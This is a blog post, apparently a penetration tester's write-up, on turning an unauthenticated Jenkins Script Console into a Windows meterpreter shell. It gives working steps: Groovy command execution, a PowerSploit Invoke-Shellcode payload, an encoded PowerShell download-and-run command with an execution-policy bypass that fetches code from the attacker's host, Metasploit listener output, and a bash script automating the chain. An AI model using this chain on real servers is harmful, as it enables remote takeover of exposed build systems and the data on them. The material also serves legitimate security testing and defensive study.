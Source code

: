 ```yaml
---
categories:
- powershell
- meterpreter
- jenkins
- command execution
comments: true
date: 2015-05-27T20:40:40Z
title: jenkins to meterpreter - toying with powersploit
---
```


{{< figure src="/images/jenkins_logo.png" >}}

Recently I came across a few [Jenkins](https://jenkins-ci.org/) continuous integration servers. A relatively old version I might add but that fact was not important. What was important though was the fact that it was not configured to be *'secure'*. Right out of the box Jenkins does not require any authentication to make use of it. In fact, it seems like its almost plug and play.
<!--more-->

## groooooooovy
At first glance I was not too sure about what opportunities I was presented with when finding this. Poking around through the web interface eventually got me to the *Script Console* that Jenkins provides:

{{< figure src="/images/jenkins_script_console.png" >}}

This looked promising. *'Type in an arbitrary Groovy script and execute it on the server.'* I had zero idea what Groovy Script was so to the le-Googles it was. Some research revealed that it is actually possible to execute commands using it. In fact, the syntax was quite expressive as explained in the [documentation](http://www.groovy-lang.org/groovy-dev-kit.html#process-management).

```text
def process = "ls -l".execute()
println "Found text ${process.text}"
```

The documentation goes into enough detail explaining the different options you have to execute commands, but the above snippet was enough to get going. To help with testing, I setup a local instance of the latest Jenkins (v1.615) and ran the Groovy Script. Remember, I was able to do this without any authentication requirement!

{{< figure src="/images/jenkins_console_command_exec.png" >}}

Nice and easy command execution! :D

## interactive shell, power shell
Getting an interactive shell on linux based hosts was as simple as picking your favorite flavor of [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and moving on from there. On Windows based environments though, the builtin `cmd.exe` definitely has its limitations. For this reason, reaching out for a meterpreter shell is almost a knee-jerk reaction.

The one Jenkins machine that I had found was running on Windows as `nt authority\system`, which of course was *great* news! I figured though that in order to get a meterpreter shell, I'd have to approach this in some conventional way. Either obtaining credentials somehow and launching it with say the metasploit SMB PSExec, or uploading an .exe somehow and executing that. Some investigations showed though that the AV on the box was killing the meterpreter.exe on the box so that option was out as well. So, next on the list? I could just make use of `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit) to download and execute one using one command.

Admittedly, I have never actually done this so a little Google-fu and research was needed to get it working right, but eventually this payed off.

In essence, getting the meterpreter shell up required 2 things (apart from the command execution). A `payload` which includes the `Invoke-Shellcode.ps1` powershell script together with the meterpreter connection details, and an encoded powershell command to be executed using the command execution we have. Together these will download the hosted payload and prepare the meterpreter. If this sounds a little confusing, don't worry it should be more clear after we have gone through it.

## preparing the payload
As already mentioned, I was going to use `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit). This will go into the payload that needs to be downloaded to bring the meterpreter up. When talking about *payload* here, all it really is is a file that will be made available via HTTP for the powershell script to download.

The payload will consist of 2 parts. First, defining `function Invoke-Shellcode {}`, and then invoking the function for a `windows/meterpreter/reverse_https` shell. Kali Linux has powersploit available in `/usr/share` so all I really did was cat it to my `payload` file:

```bash
$ cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
```

After that, I added the following line to the `payload` file which will invoke the introduced function and connect the meterpreter. My listener was on 192.168.252.1 on port 443:

```bash
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.252.1 -Lport 443 -Force
```

This file was finally served via HTTP using the python SimpleHTTPServer with `python -m SimpleHTTPServer` which meant that it would be available at http://192.168.252.1:8000/payload.

## preparing the command
Next, we need to prepare the actual command to run. We will make use of the powershell [Invoke-Expression](https://technet.microsoft.com/en-us/library/hh849893.aspx) command and give it a [Net.WebClient.DownloadString](https://msdn.microsoft.com/en-us/library/ms144200(v=vs.110.aspx) object to download the payload we previously prepared and execute it.

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')
```

That whole command needs to be [encoded](http://blogs.msdn.com/b/timid/archive/2014/03/26/powershell-encodedcommand-and-round-trips.aspx) so that, using the command injection, we can run powershell and not worry about escaping and things like that. I found some snippets online to help with this.

```bash
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
```

The above will output a base64 encoded string that should be passed to the Powershell `-Enc` flag for execution. The last hurdle to overcome was a potential execution policy. The tl;dr of this is that it can be bypassed by simply passing `-Exec ByPass` to the powershell executable. So, in summary, the command will be as follows:

```powershell
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4 [snip] BjBkACcAKQAKAA==
```

## pwn
So, I now had the `payload` file available for download via HTTP, and the command I needed to run. The last thing I had to do was setup a reverse_https listener in metasploit and run the command!

{{< figure src="/images/jenkins_powershell_payload.png" >}}

From the python web server we can see the request come in for the payload:

```text
192.168.252.100 - - [28/May/2015 12:37:15] "GET /payload HTTP/1.1" 200 -
```

And pop!

```bash
msf exploit(handler) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Starting the payload handler...
[*] 192.168.252.100:54023 Request received for /INITM...
[*] 192.168.252.100:54023 Staging connection for target /INITM received...
[*] Meterpreter session 1 opened (192.168.252.1:443 -> 192.168.252.100:54023) at 2015-05-28 12:37:17 +0200

meterpreter >
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## automation
While testing this, I slapped together a small script that will prepare the command to run and start the SimpleHTTPServer:

```bash
#!/bin/bash

# meterpreter ip & port
lhost=192.168.252.1
lport=443

echo " * Writing Payload"
cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
echo "Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost $lhost -Lport $lport -Force" >> payload

echo " * Prepping Command"
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://$lhost:8000/payload')"
echo $scriptblock

echo
echo " * Encoding command"
encode="`echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0`"
echo $encode

command="cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc $encode"
echo
echo " * Final command"
echo $command

echo
echo " * Starting HTTP Server to serve payload"
python -m SimpleHTTPServer
```